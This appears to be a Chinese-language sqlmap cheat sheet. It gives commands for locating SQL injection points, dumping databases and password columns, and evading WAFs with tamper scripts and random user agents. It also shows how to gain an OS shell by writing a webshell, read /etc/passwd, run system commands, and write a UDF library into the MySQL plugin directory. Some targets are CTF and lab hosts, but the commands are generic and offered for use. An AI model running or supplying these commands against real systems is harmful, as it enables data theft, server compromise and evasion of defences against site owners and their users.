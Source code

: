 sqlmap 是一个用于对关系型数据库自动化 SQL 注入检测和利用的开源工具。SQL 注入是一种常见的安全漏洞，允许攻击者通过注入恶意 SQL 语句来执行未经授权的数据库操作。sqlmap 旨在帮助安全研究人员和黑客发现和利用应用程序中的 SQL 注入漏洞。

sqlmap好像默认走系统代理，要注意系统代理的可达性，否则可能sqlmap一直失败。最好关闭系统代理，需要时手动指定代理。
## **安装sqlmap使用**
```
windows:
python sqlmap.py -u 网址

linux kali:
sudo apt update
sudo apt install sqlmap
sudo apt upgrade sqlmap  //更新sqlmap
sqlmap -u 网址
sqlmap -hh   //获取帮助
sqlmap -version 
```
sqlmap汉化版：
<https://github.com/BugFor-Pings/CN_Sqlmap>
<https://github.com/honmashironeko/sqlmap-gui>
bp插件安装sqlmap:<https://blog.csdn.net/luochen2436/article/details/118525503>
sqlmap-plus二开升级，增加MSSQL数据库注入的利用方式(调用ole对象和xpcmdshell,clr)等：<https://github.com/co01cat/SqlmapXPlus>

## **指定注入点**
手册：<https://static.kancloud.cn/lengyueguang/linux/1263643>
<https://sqlmap.highlight.ink/>
```
1. 默认get型注入点,直接-u加网址即可
-u http://sqlsec.com/index.php?r=default/news/content&id=16

2. get型伪静态网页，用*指定注入点
-u http://a.com/post/12*.html

参数键注入用?*=1

3. POST型注入点 ，UA头都为包里的
bp抓包，将请求体中注入点参数用*标记，如：id=12*
将请求体保存文件如s.txt中
sqlmap不用-u 用 -r s.txt

4. POST型注入点  ，此时的默认UA头带有sqlmap
--data="id=122"

5.xml里的参数点
和POST类似
```

## **常用模板命令**
```


–batch 批处理自动注入
--ignore-code=500  忽略500


sqlmap -u b7fdb6ca.sqlsec.com/?id=2 --dbs -v-3 --dump -C "content" -T flag_is_here -D "db"

mysql:
sqlmap -u "http" --dbms=mysql --random-agent -v 3



后台主机加cookie：
--cookie      加cookie请求



直接连接数据库
sqlmap.py -d "mysql://root:123456@127.0.0.1:3306/mysql" --os-shell
```


## **sqlmap常用参数**
```
--dbms=mysql    指明为mysql，节省识别时间

--random-agent  随机UA，防止WAF

-v 3      查看注入时使用的语句

--is-dba      看是否是管理员高权限
、
--privilege    查看权限
--current-user   查看当前登录数据库的用户名

--dbs    高权限获取所有数据库库名

--current-db   查看当前数据库的库名
返回[INFO] retrieved:'库名'

--tables      所有库中的表名
--tables -D "库名"  显示 指定库中的所有表名

--columns -T "表名" -D "库名"     获取表名中所有字段

--dump -C "name,password" -T “表名” -D "库名"   获取对应字段name,password的表中记录
password字段可能会顺带解密
```

```
--search   搜索列，表，库名

注入类型：默认从上到下
--technique=U 联合注入
--technique=E  报错型
--technique=B  布尔注入
--technique=T  时间注入
--technique=S  多语句查询注入
--technique=Q  内联注入，sqlserver用的多 

检测级别：
--level=1  默认为1
--level=2  加测 HTTP  Cookie  
--level=3  加测  UA,Referer
--level=4  更大的playload
--level=5  更大的 

检测风险级别
--risk    默认为1最高3，一般不最高3,可能会删库删除纪录，留脏数据。
--level=5  --risk=3,尽最大力进行sql注入。

--flush-sessions  清除缓存，清除脱裤纪录
--cookie      加cookie请求

--proxy socks5:// 127.0.0.1:10808   挂代理跑sqlmap
--proxy-file proxys.txt  使用代理池列表

--delay=1  每一秒请求一次
--retries   连接超时最大重试次数，默认为3
--skip="user-agent referer"  跳过注入

--threads 10  默认1，设置为10线程方便脱裤
```
## **绕过防护**
```
--random-agent  随机UA，防止WAF
--user-agent sqlmap 
--referer http://9.challenge.ctf.show/sqlmap.php

绕过WAF,修改注入数据格式：
sqlmap的tamper/文件中自带脚本
调用脚本
-- tamper="between,randomcase,space2comment"
-- tamper="symboliclogical,randomcase,space2comment"

between: <>=换成between
space2comment: 空格用/**/替换
randomcase: 随机字母大小写
symboliclogical: 替换or and

base64编码、url编码、双url编码、宽字节、使用/**/分割sql关键字、替换空格为xx
```
## **获取shell，文件操作等**
```
--sql-shell   调出sql的shell，可以使用sql语句，如用sql语句查询表中记录。如果要执行文件写入，插入数据，要使用堆叠注入。

--os-shell    调出系统交互shell
通过选择网站程序语言写入16进制的小马webshell到网站目录下，实现getshell。
如果找不到phpstudy网站目录，可以选择2，手动输入phpstudy的网站目录。
正常直接返回可以交互shell的窗口。
如果失败可以访问网址首页加/tmpxxxx.php看看，是一个上传文件表单的小马，这里可以手动上传shell.php，
上传也在当前目录，然后用蚁剑getshell。

--os-cmd=id   执行系统命令id

--file-read="/etc/passwd"  读文件，利用的load_file()函数
可以读flag文件，/var/www/html/index.php

sqlmap 来上传文件：
又因为 GET 有字节长度限制，所以往往 POST 注入才可以执行这种攻击
sqlmap写动态链接库
sqlmap -u "http://localhost:30008/" --data="id=1" 
--file-write="/Users/sec/Desktop/lib_mysqludf_sys_64.so" 
--file-dest="/usr/lib/mysql/plugin/udf.so"

```

## **点到为止脱裤**
脱裤：下载数据库中的信息
一般都使用 sqlmap 来进行脱裤，使用 --start --stop 来设置脱裤的起点和终点：

```
sqlmap -u "http://127.0.0.1:8888/Less-1/?id=1" --dump -C'id,username,password' -T 'users' -D 'security' --start=1 --stop=5
```



如果要证明某个表下面的数量的话，直接使用 sqlmap 的 `--count` 参数即可

```
sqlmap -u "http://127.0.0.1:8888/Less-1/?id=1" --count -T 'users' -D 'security'
```

